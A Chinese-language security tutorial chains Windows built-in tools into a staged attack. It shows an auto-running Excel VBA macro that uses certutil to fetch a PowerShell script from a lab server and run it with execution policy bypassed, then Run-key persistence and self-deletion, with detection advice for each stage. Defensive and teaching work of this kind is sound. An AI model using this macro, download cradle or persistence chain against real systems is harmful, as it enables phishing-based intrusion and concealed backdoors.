


真實攻擊中，LOLBAS 工具很少會單獨使用，  
攻擊者會把多個內建工具串連成**攻擊鏈**，  
從初始入侵到持久化潛伏，全程使用合法工具躲避偵測

所以這篇文章，  
我們就一起來把先前所學全部串起來運用吧！

## 攻擊情境

* * *

*   **目標**：企業財務部門
*   **載體**：惡意Excel檔案
*   **目的**：建立持久化後門
*   **限制**：僅使用Windows內建工具

### 階段一：初始入侵（Excel VBA）



想像你是一個公司的員工，收到了這個財務表格  
檔案看起來沒太大問題，  
大家通常下意識也會去上面黃黃的那一條把按鈕按下去 XD

**那這時候我們的攻擊就成功執行了**

#### 攻擊者手法

一旦點擊啟用內容，EXCEL.EXE 中預藏的 VBA 惡意巨集就會被觸發，執行攻擊的第二階段

*   使用工具：`EXCEL.EXE`
*   攻擊TTP：`T1566.001 - Spearphishing Attachment / T1204.002 - Malicious File`

#### 簡易 Demo

1.  開啟一個新的 Excel 檔案
2.  按下 `Alt + F11` 進入 VBA 編輯器
3.  在左側的專案總管中，找到 `ThisWorkbook` 並雙擊它
4.  在右側的程式碼視窗中，貼上以下 VBA 程式碼這段程式碼會呼叫 `cmd.exe` 來執行下一階段的指令

```vb
Private Sub Workbook_Open()
    Dim command As String
    command = "cmd.exe /c certutil.exe -urlcache -f http://192.168.56.1:8080/stage2.ps1 C:\Users\Public\stage2.ps1 && powershell.exe -ExecutionPolicy Bypass -File C:\Users\Public\stage2.ps1"

    Shell command, vbHide
End Sub

```

5.  將檔案另存為Excel 啟用巨集的活頁簿 (\*.xlsm)當受害者打開並啟用內容時，攻擊就已經開始

#### 藍隊偵測與防禦方法

#### 1\. 行為偵測 (EDR)

最關鍵的偵測點是 `EXCEL.EXE` 的處理程序行為如果 EDR 偵測到 `EXCEL.EXE` 嘗試啟動 `cmd.exe``powershell.exe` 等子處理程序，就是一個可疑的攻擊訊號

#### 2\. 攻擊面縮減 (ASR)

在 Microsoft Defender 環境中,啟用**Block all Office applications from creating child processes**規則,可以直接從根本上阻斷此類攻擊

#### 3\. 使用者教育

持續進行社交工程演練,教導員工永遠不要輕易相信郵件內容並啟用不明檔案的巨集

* * *

### 階段二：下載並執行 Payload

#### 攻擊者手法

第一階段的 VBA 巨集，功能是執行一個 `cmd.exe` 命令，命令又可以拆成兩部分：

1.  **下載 (Staging)**：使用 `certutil.exe` 從攻擊者的伺服器下載第二階段的 PowerShell 腳本 (`stage2.ps1`) 到一個所有使用者都可讀寫的目錄 `C:\Users\Public\`
    
2.  **執行 (Execution)**：立即使用 `powershell.exe` 執行剛下載的腳本
    

*   **使用工具**：`cmd.exe`, `certutil.exe`, `powershell.exe`
*   **攻擊 TTP**：`T1105 - Ingress Tool Transfer / T1059.001 - PowerShell`

#### 簡易 Demo

上一階段的 VBA 已經包含了此階段的 DemoVBA 會下載並執行一個 PowerShell 腳本，  
這邊也放上腳本 (`stage2.ps1`) 的內容，它會執行我們攻擊的第三和第四階段

```powershell
# stage2.ps1

# 把小算盤加到登錄碼的 Run 機碼中，讓他在使用者下次登入時自動啟動
# 在真實攻擊中，這裡會是放後門程式的地方
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "System Health Monitor" /t REG_SZ /d "C:\Windows\System32\calc.exe" /f

# 刪除下載的腳本檔案
Remove-Item -Path $MyInvocation.MyCommand.Path -Force

```

#### 藍隊偵測與防禦方法

1.  **命令列參數監控**：監控 `certutil.exe` 是否帶有 `-urlcache` 參數執行,以及 `powershell.exe` 是否帶有 `-ExecutionPolicy Bypass` 或 `-File` 參數
2.  **網路流量監控**：`certutil.exe` 是一個憑證管理工具,它不應該去連線 GistPastebin 或其他非預期的外部網站
3.  **PowerShell 腳本區塊記錄**：這是偵測無檔案攻擊的利器啟用此功能後,即使 PowerShell 腳本是從網路下載後立即執行,其完整的原始碼也會被記錄在事件日誌中,讓攻擊無所遁形

* * *

### 階段三：建立持久化

#### 攻擊者手法

第二階段的 `stage2.ps1` 腳本執行後，  
他最主要任務之一就是要去建立持久化後門  
它會使用 `reg.exe` (透過 PowerShell 呼叫) 在目前使用者的 `Run` 登錄碼機碼下，

新增一個叫作 "System Health Monitor" 的項目  
`explorer.exe` 就會在使用者每次登入時自動讀取這個位置並執行其中的命令

*   **使用工具**：`reg.exe` (由 `powershell.exe` 呼叫), `explorer.exe`（開機 Startups 會用到他）
*   **攻擊 TTP**：`T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys`

#### 簡易 Demo

`stage2.ps1` 腳本中的 `reg add` 指令就是此階段的 Demo  
執行之後我們來驗證看看：

1.  打開工作管理員,切換到開機應用程式分頁，會看到一個名字是 `calc` (或 `System Health Monitor`) 的新項目



2.  登出再重新登入，就會發現小算盤自動啟動了

#### 藍隊偵測與防禦方法

1.  **登錄碼變更監控**：使用 Sysmon (Event ID 12, 13) 或 EDR 監控對 `\CurrentVersion\Run``\CurrentVersion\RunOnce` 等敏感登錄碼機碼的寫入行為
2.  **定期審計**：定期檢查系統中的自動啟動項，可以使用 `Autoruns` 等工具來全面檢視所有持久化位置

* * *

### 階段四：清理痕跡 (Defense Evasion)

#### 攻擊者手法

在完成持久化設定後,`stage2.ps1` 腳本做的最後一件事,就是自我毀滅,刪除它自己在磁碟上的蹤跡,讓調查人員更難找到攻擊的來源

*   **使用工具**：PowerShell (`Remove-Item`)
*   **攻擊 TTP**：`T1070.004 - File Deletion`

#### 簡易 Demo

`stage2.ps1` 腳本中的 `Remove-Item` 指令就是此階段的 Demo  
我們也會發現 `C:\Users\Public\stage2.ps1` 檔案在執行後就消失了

#### 藍隊偵測與防禦方法

1.  **日誌聚合**：即使檔案被刪除,但之前各階段產生的處理程序建立日誌網路連線日誌PowerShell 腳本區塊日誌如果已經被集中傳送到 SIEM 等日誌中心,攻擊者就無法抹除這些數位證據
2.  **鑑識分析**：在事後調查中,即使檔案被刪除,仍有可能透過磁碟鑑識工具來還原檔案,或從檔案系統的日誌 (如 MFT) 中找到檔案曾經存在的證據

## IOCs

* * *

*   Excel.exe cmd.exe certutil.exe
*   Certutil.exe含 `-urlcache -f` 參數
*   PowerShell含 `-ExecutionPolicy Bypass`
*   新增Run註冊表項目
*   Cipher.exe含 `/w:` 參數

## 總結

* * *

這個攻擊鏈展示了LOLBAS工具如何環環相扣，  
從初始的 Excel VBA 到最終的痕跡清理，全程使用合法工具  
防禦關鍵在於監控異常進程鏈和限制關鍵工具執行

這篇文章也是把之前講過的一些工具串起來，  
當然絕對不只有這樣的串法，  
也可以去寫一個惡意 DLL 或塞一個 Reverse Shell 來打都是可行的

所以希望大家對於 LOLBAS 的攻擊可以不設限，  
也期待看到大家發揮想像力來透過組合完成攻擊！

## 參考資料

* * *

1.  [https://medium.com/@cp-x/%E6%BB%B2%E9%80%8F-fileless-attacks-lolbas-%E7%B5%84%E5%90%88%E7%9A%84%E6%94%BB%E6%93%8A%E6%80%9D%E8%B7%AF-eaa6b73969ee](https://medium.com/@cp-x/%E6%BB%B2%E9%80%8F-fileless-attacks-lolbas-%E7%B5%84%E5%90%88%E7%9A%84%E6%94%BB%E6%93%8A%E6%80%9D%E8%B7%AF-eaa6b73969ee)
2.  [https://www.jrcpa.tw/download.html](https://www.jrcpa.tw/download.html)